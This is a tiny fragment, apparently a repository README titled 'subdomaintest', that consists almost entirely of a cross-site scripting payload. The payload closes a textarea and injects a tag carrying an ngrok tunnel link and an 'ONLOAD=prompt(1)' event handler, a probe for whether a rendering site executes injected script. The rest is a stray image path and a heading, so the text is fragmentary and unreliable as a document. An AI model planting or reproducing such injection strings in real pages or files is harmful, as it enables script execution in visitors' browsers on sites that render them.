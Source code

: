 # subdomaintest.
</textarea><textarea <a href='https://fdfb-117-199-162-219.ngrok-free.app' ONxss ONLOAD=prompt(1)>>

